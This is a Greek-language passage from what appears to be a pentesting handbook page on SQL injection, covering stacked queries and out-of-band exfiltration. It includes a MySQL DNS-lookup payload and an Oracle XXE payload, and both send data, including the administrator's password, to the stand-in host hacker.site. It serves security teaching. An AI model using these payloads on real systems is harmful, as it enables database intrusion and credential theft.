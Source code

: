 Μπορείτε να χρησιμοποιήσετε στοιβαγμένες ερωτήσεις για να **εκτελέσετε πολλές ερωτήσεις διαδοχικά**. Σημειώστε ότι ενώ οι επόμενες ερωτήσεις εκτελούνται, τα **αποτελέσματα** **δεν επιστρέφονται στην εφαρμογή**. Επομένως, αυτή η τεχνική είναι κυρίως χρήσιμη σε σχέση με **τυφλές ευπάθειες** όπου μπορείτε να χρησιμοποιήσετε μια δεύτερη ερώτηση για να ενεργοποιήσετε μια αναζήτηση DNS, μια συνθήκη σφάλματος ή καθυστέρηση χρόνου.

**Oracle** δεν υποστηρίζει **στοιβαγμένες ερωτήσεις.** **MySQL, Microsoft** και **PostgreSQL** τις υποστηρίζουν: `QUERY-1-HERE; QUERY-2-HERE`

## Εκμετάλλευση εκτός ζώνης

Αν **κανένας άλλος** μέθοδος εκμετάλλευσης **δεν λειτούργησε**, μπορείτε να προσπαθήσετε να κάνετε τη **βάση δεδομένων να εξάγει** τις πληροφορίες σε έναν **εξωτερικό διακομιστή** που ελέγχετε. Για παράδειγμα, μέσω ερωτήσεων DNS:
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
### Εξαγωγή δεδομένων εκτός δικτύου μέσω XXE
```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```
## Αυτοματοποιημένη Εκμετάλλευση

Ελέγξτε το [SQLMap Cheatsheet](sqlmap/) για να εκμεταλλευτείτε μια ευπάθεια SQLi με [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Τεχνικές συγκεκριμένες πληροφορίες

Έχουμε ήδη συζητήσει όλους τους τρόπους εκμετάλλευσης μιας ευπάθειας SQL Injection. Βρείτε μερικά ακόμα κόλπα που εξαρτώνται από την τεχνολογία βάσης δεδομένων σε αυτό το βιβλίο:

- [MS Access](ms-access-sql-injection.md)
- [MSSQL](mssql-injection.md)
- [MySQL](mysql-injection/)
- [Oracle](oracle-injection.md)
- [PostgreSQL](postgresql-injection/)

Ή θα βρείτε **πολλά κόλπα σχετικά με: MySQL, PostgreSQL, Oracle, MSSQL, SQLite και HQL σε** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

## Παράκαμψη αυθεντικοποίησης
